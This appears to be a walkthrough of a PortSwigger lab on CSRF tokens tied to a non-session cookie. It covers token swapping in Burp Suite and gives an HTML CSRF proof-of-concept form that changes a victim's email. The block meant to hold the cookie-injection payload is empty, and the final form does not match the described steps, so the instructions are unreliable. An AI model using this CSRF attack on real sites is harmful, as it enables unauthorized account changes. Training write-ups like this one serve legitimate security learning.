

[Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they are not fully integrated into the site's session management system.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You have two accounts in the application that you can use to develop your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`
## Solution
Go to the task site


Log in as user `wiener`


Change the email and intercept the request via `Burp Suite`.


We see that we have the following tokens:
```Tokens
csrfKey=lPPp4nuSoEpv6zOnVt4UWetL0bn6umi5
session=fQ0OjfYKBadYSwz5aJiMUcc8wUFbjS6S
csrf=7zUESTM9xE3zIq7cCj09Q5hh3jM4sjyJ
```
Note that changing the `session` cookie logs you out, while changing the `csrfKey` cookie only results in the CSRF token being rejected (`"Invalid CSRF token"` error). This suggests that the `csrfKey` cookie may not be strictly session-specific.
Let's open an incognito window and log in as the second user `carlos`.


Change the email, intercept the request via `Burp Suite` and send it to `Repeater`


Note that if we take `csrfKey` and `csrf` from the previous account and paste them into the request of another account, the request will be successful


Close the incognito window and go to the original browser. Change the email again and intercept the request. After that, right-click and then `Engagement tools > Generate CSRF PoC`. Remove the lines with `<script>` and instead enter
```Request

```
, replacing `YOUR-LAB-ID.web-security-academy.net` with `Host` and `YOUR-KEY` with `csrfKey`



Copy the HTML code and go to `Exploit Server`. In it, in the `Body` field, paste this HTML code:
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a92001d04fb4aa9832f3286008d009c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="DeX1d&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="7zUESTM9xE3zIq7cCj09Q5hh3jM4sjyJ" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```


Next, click `Store` and `Deliver exploit to victim`


